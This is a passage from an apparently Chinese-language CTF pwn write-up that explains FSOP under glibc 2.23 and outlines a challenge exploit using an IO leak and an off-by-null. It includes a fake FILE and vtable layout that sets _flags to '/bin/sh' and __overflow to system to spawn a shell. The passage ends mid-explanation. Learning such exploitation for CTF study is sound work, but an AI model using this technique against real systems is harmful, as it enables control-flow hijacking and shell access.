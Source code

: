 就会调用`_IO_OVERFLOW()`函数(进行缓冲区检查)，而这里的`_IO_OVERFLOW`就是**文件流对象虚表的第四项**指向的内容`_IO_new_file_overflow`，

因此**在`libc-2.23`版本下**可如下构造，进行`FSOP`：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = "/bin/sh\x00", // （*）！对应此结构体首地址(fp) <===
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1, // <===
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = heap_addr // <===
}
heap_addr
{
  __dummy = 0x0,
  __dummy2 = 0x0,
  __finish = 0x0,
  __overflow = system_addr, // <===
    ...
}
```



因此这样构造，通过`_IO_OVERFLOW (fp)`，我们就实现了`system("/bin/sh\x00")`。



## 2.23 例题

[nsctf_online_2019_pwn1](https://buuoj.cn/challenges#nsctf_online_2019_pwn1)

### 思路

edit有一个数组下标可为负数；edit有一个off-by-null

先IO leak泄露libc，再打FSOP。



### 关键点

1. 覆盖时，要注意**不能破坏`_lock`字段**，不然puts的`_IO_acquire_lock (_IO_stdout);`操作会错误。
2. 这题没有用上面提到的`_IO_flush_all_lockp`来触发。

而是利用`puts`时会调用`vtable`中的`_IO_new_file_xsputn`函数。

**puts**：
